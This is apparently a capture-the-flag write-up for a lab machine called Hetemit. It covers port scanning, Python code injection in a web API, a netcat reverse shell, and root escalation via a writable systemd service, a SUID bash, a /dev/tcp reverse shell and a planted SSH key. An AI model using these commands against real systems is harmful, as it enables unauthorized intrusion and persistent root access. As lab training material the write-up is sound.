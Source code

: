 # Hetemit

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:27 +08
Warning: 192.168.201.117 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.201.117
Host is up (0.18s latency).
Not shown: 65479 filtered tcp ports (no-response), 49 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
18000/tcp open  biimenu
50000/tcp open  ibm-db2
```

Lots of ports. FTP allows for anonymous access, but just hangs.&#x20;

### Web Enumeration --> Python Code Injection

Port 80 had the default Apache HTTP Server:

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

Ran a directory scan on this and didn't find much.

Port 50000 had a simple API running:

<figure><img src="../../../.gitbook/assets/image (576).png" alt=""><figcaption></figcaption></figure>

If we use the `/generate` option, it just returns us this:

```
$ curl http://192.168.201.117:50000/generate
{'email@domain'}
```

I tried sending POST requests to this:

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

Not too sure what to do with that token. However, we notice that this is running a Python server. The `/verify` endpoint also accepts POST requests, but it always seems to fail:

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

Since this was running a Python based server, we can try some Python code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

This looks like it works. Another test confirms that it works:

<figure><img src="../../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So this script has the `os` module imported, meaning we can get an easy reverse shell:

```python
os.system("nc -e /bin/bash 192.168.45.191 21")
```

<figure><img src="../../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Misconfigured Services + Reboot

The user is able to reboot the system:

```
[cmeeks@hetemit ~]$ sudo -l
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

This indicates to me that there is some kind of startup script to exploit. I ran a `linpeas.sh` scan on the machine to enumerate, and it found quite a few misconfigured services:

<figure><img src="../../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

We can overwrite this to execute a script that gives us a reverse shell. I included the SUID bit in my script just in case the shell doesn't work:

```bash
#!/bin/bash

chmod u+s /bin/bash
bash -i >& /dev/tcp/192.168.45.191/18000 0>&1
```

I also included my SSH key within the `authorized_keys` folder for backdoor access.

```bash
cd ~
mkdir .ssh
echo 'KEY' >> .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 700 .ssh
```

Afterwards, using `vi` we can edit the service file:

```
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/shell.sh
TimeoutSec=30
RestartSec=15s
User=root
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Then, we can run `sudo /sbin/reboot` to restart the machine. Then we just have to wait for a bit before we can SSH back in. The reverse shell didn't work for some reason, but the SUID binary command did:

<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

Rooted!
